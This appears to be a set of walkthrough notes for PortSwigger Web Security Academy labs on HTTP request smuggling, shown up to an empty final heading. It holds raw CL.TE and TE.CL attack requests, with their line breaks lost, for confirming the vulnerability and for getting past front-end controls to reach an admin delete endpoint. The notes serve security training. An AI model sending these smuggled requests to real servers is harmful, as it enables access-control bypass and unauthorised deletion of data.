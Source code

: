    ### **Note**
    
    You need to include the trailing sequence `\r\n\r\n` following the final `0`.
    
    The second response should say: `Unrecognized method GPOST`.
    
- [**HTTP request smuggling, confirming a CL.TE vulnerability via differential responses**](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)
    
    To confirm a CL.TE vulnerability, you would send an attack request like this:
    
    ```
    POST / HTTP/1.1Host: YOUR-LAB-ID.web-security-academy.netContent-Type: application/x-www-form-urlencodedContent-Length: 35Transfer-Encoding: chunked0GET /404 HTTP/1.1X-Ignore: X
    ```
    
    If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
    
    ```
    GET /404 HTTP/1.1Foo: xPOST /search HTTP/1.1Host: vulnerable-website.comContent-Type: application/x-www-form-urlencodedContent-Length: 11q=smuggling
    ```
    
    Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.
    
- [**HTTP request smuggling, confirming a TE.CL vulnerability via differential responses**](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
    
    In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
    
    Using Burp Repeater, issue the following request twice:
    
    ```
    POST / HTTP/1.1Host: 0aa200c80317e3b181ba8e7700f700a9.web-security-academy.netContent-Type: application/x-www-form-urlencodedConnection: keep-aliveContent-length: 4Transfer-Encoding: chunked5ePOST /404 HTTP/1.1Content-Type: application/x-www-form-urlencodedContent-Length: 15x=10
    ```
    
    The second request should receive an HTTP 404 response.
    
- [**Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability**](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)
    
    ```
    POST / HTTP/1.1Host: YOUR-LAB-ID.web-security-academy.netContent-Type: application/x-www-form-urlencodedContent-Length: 139Transfer-Encoding: chunked0GET /admin/delete?username=carlos HTTP/1.1Host: localhostContent-Type: application/x-www-form-urlencodedContent-Length: 10x=
    ```
    
- [**Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability**](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)
    